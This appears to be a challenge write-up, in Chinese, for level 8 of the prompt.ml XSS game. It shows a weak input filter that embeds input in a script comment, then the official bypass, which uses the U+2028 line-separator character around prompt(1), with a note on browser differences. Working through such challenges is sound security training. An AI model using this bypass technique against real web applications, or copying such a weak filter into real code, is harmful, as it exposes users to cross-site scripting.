 ![7_5](/img/xss/prompt_ml/level7_005.png)

# Level 8

## Code:

```
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
    <script>                                    \n\
        // console.log("' + input + '");        \n\
    </script> ';
    }                    
```

## 分析:

```
过滤了换行 < /,解决这题需要绕过换行。
官方给的答案是：
[U+2028]prompt(1)[U+2028]-->
这里很多人的都没成功，我在firefox下也没成功,不过chrome是可以的。
prompt(1)-->
```
[U+2028]特殊字符在这复制：https://unicode-table.com/en/#2028

<html><b>&#8232;prompt(1)&#8232;&#x2d;&#x2d;></b></html>
